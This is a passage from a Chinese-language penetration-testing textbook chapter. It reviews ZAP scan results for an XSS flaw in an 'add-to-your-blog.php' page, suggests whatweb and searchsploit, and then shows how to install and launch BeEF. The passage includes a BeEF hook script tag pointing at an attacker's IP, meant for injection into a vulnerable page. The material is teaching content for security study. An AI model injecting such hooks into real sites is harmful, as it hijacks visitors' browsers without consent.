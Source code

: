 *图 13-8：运行快速 ZAP 扫描的结果*

当扫描完成后，您应该会看到图 13-8 所示的屏幕。左下角面板显示了 ZAP 发现的可能的 Web 漏洞列表。您应该会看到 ZAP 工具发现了包含我们之前利用的 XSS 漏洞的*add-to-your-blog.php*页面➊。该工具还显示了服务器生成的 HTTP 响应的头部➋，以及响应的主体，其中包含 HTML ➌。作为 XSS 攻击可能存在的证据，工具突出显示了它注入 JavaScript 的位置。ZAP 还突出显示了攻击的细节 ➍。该面板还包含有关存在漏洞的 URL 以及漏洞的简短描述的信息。

您可能已经能看出，ZAP 是一个非常有用的工具。花些时间通过在线浏览其文档来熟悉它的各种强大功能。扫描 Web 应用的另一种方式是搜索与构建它所使用的技术相关的已知漏洞。使用第八章中讨论的工具和技术来发现目标的底层技术。例如，您可能会执行`whatweb`扫描，并使用`searchsploit`命令行工具查找与用于构建应用的特定版本软件相关的漏洞。

### 使用浏览器利用框架有效载荷

*浏览器利用框架（BeEF）* 使黑客能够轻松地将恶意 JavaScript 有效载荷嵌入到易受攻击的应用程序中并进行控制。我们将使用该工具探索使用恶意 JavaScript 可以实现的许多功能。BeEF 应该在 Kali Linux 中预安装；然而，如果您的版本没有它，您可以通过以下命令进行安装：

```
kali@kali:~$ sudo apt-get install beef-xss
```

#### *注入 BeEF Hook*

安装完成后，运行 BeEF：

```
kali@kali:~$ sudo beef-xss
```

在框架启动时，你可能需要输入用户名和密码。创建这些账户，并确保记住它们。你的终端应显示如下内容：

```
   [*] Please wait for the BeEf service to start.

   [*] You might need to refresh your browser once it opens.

   [*]
➊ [*]  Web UI: http://127.0.0.1:3000/ui/panel
➋ [*]   Hook: <script src="http//<IP>:3000/hook.js"></script>

   [*] Example: <script src="http//127.0.0.1:3000/hook.js"></script>
```

复制 BeEF Web 界面的 URL ➊ 并输入到你的浏览器中。你应该会看到 BeEF 登录界面，如 图 13-9 所示。使用你之前创建的用户名和密码登录。

![image](img/ch13fig09.jpg)
